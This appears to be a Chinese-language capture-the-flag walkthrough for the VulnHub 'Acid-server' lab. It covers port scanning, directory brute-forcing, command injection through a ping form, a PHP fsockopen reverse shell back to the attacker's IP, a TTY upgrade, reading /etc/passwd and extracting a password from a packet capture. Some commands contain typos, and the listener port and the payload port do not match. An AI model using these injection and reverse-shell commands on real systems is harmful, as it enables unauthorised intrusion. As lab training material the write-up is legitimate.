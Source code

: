 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http

`$ sudo nmap -sP 172.16.71.0/24`

`$ sudo nmap -p1-65535 -sV 172.16.71.208`
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port

`$ nc -l 3333`

用php反彈shell成功，最後payload:

`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件

`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
